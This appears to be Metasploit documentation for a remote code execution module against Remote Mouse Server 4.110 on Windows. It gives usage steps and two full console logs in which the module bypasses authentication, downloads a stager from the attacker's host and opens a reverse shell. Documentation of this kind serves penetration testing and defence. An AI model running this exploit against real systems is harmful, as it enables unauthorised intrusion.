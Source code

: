 ## Vulnerable Application

This module utilizes the Remote Mouse Server by Emote Interactive protocol
to deploy a payload and run it from the server.  This module will deploy
a payload regardless if server authentication is required.
Tested against 4.110, current at the time of module writing

Version 4.110 can be downloaded from https://www.remotemouse.net/downloads/RemoteMouse.exe
    
## Verification Steps

1. Install the application
2. Start msfconsole
3. Do: `use exploit/windows/misc/remote_mouse_rce`
4. Set `rhost` and `lhost` as required.
5. Do: `run`
6. You should get a shell as the user who is running Remote Mouse.

## Options

### SLEEP

The length of time, in seconds, to sleep between each command. This gives the remote program time to process the command on screen.
Defaults to `1`.

## Scenarios

###  Remote Mouse 4.110 on Windows 10

```
resource (remote_mouse.rb)> use exploits/windows/misc/remote_mouse_rce
[*] Using configured payload windows/shell/reverse_tcp
resource (remote_mouse.rb)> set rhosts 192.168.2.95
rhosts => 192.168.2.95
resource (remote_mouse.rb)> set lhost 192.168.2.199
lhost => 192.168.2.199
resource (remote_mouse.rb)> set verbose true
verbose => true
msf6 exploit(windows/misc/remote_mouse_rce) > run

[*] Started reverse TCP handler on 192.168.2.199:4444 
[*] 192.168.2.95:1978 - Running automatic check ("set AutoCheck false" to disable)
[+] 192.168.2.95:1978 - The target appears to be vulnerable. Received handshake with version: 411
[*] 192.168.2.95:1978 - Connecting
[*] 192.168.2.95:1978 - Sending Windows key
[*] 192.168.2.95:1978 - Opening command prompt
[*] 192.168.2.95:1978 - Sending stager
[*] 192.168.2.95:1978 - Using URL: http://192.168.2.199:8080/
[+] 192.168.2.95:1978 - Payload request received, sending 73802 bytes of payload for staging
[+] 192.168.2.95:1978 - Payload request received, sending 73802 bytes of payload for staging
[*] 192.168.2.95:1978 - Executing payload
[*] Encoded stage with x86/shikata_ga_nai
[*] Sending encoded stage (267 bytes) to 192.168.2.95
[*] Command shell session 1 opened (192.168.2.199:4444 -> 192.168.2.95:49962) at 2022-09-27 16:33:02 -0400
[*] 192.168.2.95:1978 - Server stopped.
[!] 192.168.2.95:1978 - This exploit may require manual cleanup of 'c:\Windows\Temp\NADYvmtxr.exe' on the target


Shell Banner:
Microsoft Windows [Version 10.0.16299.125]
-----
          

C:\Users\windows>whoami 
whoami
win10prolicense\windows

C:\Users\windows>systeminfo
systeminfo

Host Name:                 WIN10PROLICENSE
OS Name:                   Microsoft Windows 10 Pro
OS Version:                10.0.16299 N/A Build 16299
```

###  Remote Mouse 4.110 on Windows 10, with a password


```
resource (remote_mouse.rb)> use exploits/windows/misc/remote_mouse_rce
[*] Using configured payload windows/shell/reverse_tcp
resource (remote_mouse.rb)> set rhosts 192.168.2.95
rhosts => 192.168.2.95
resource (remote_mouse.rb)> set lhost 192.168.2.199
lhost => 192.168.2.199
resource (remote_mouse.rb)> set verbose true
verbose => true
msf6 exploit(windows/misc/remote_mouse_rce) > exploit

[*] Started reverse TCP handler on 192.168.2.199:4444 
[*] 192.168.2.95:1978 - Running automatic check ("set AutoCheck false" to disable)
[+] 192.168.2.95:1978 - The target appears to be vulnerable. Received handshake with version: 411
[*] 192.168.2.95:1978 - Connecting
[*] 192.168.2.95:1978 - Sending Windows key
[*] 192.168.2.95:1978 - Opening command prompt
[*] 192.168.2.95:1978 - Sending stager
[*] 192.168.2.95:1978 - Using URL: http://192.168.2.199:8080/
[+] 192.168.2.95:1978 - Payload request received, sending 73802 bytes of payload for staging
[+] 192.168.2.95:1978 - Payload request received, sending 73802 bytes of payload for staging
[*] 192.168.2.95:1978 - Executing payload
[*] Encoded stage with x86/shikata_ga_nai
[*] Sending encoded stage (267 bytes) to 192.168.2.95
[*] Command shell session 1 opened (192.168.2.199:4444 -> 192.168.2.95:49975) at 2022-09-27 16:36:09 -0400
[*] 192.168.2.95:1978 - Server stopped.
[!] 192.168.2.95:1978 - This exploit may require manual cleanup of 'c:\Windows\Temp\86a4GsbpomvEgUS.exe' on the target


Shell Banner:
Microsoft Windows [Version 10.0.16299.125]
-----
          

C:\Users\windows>
```

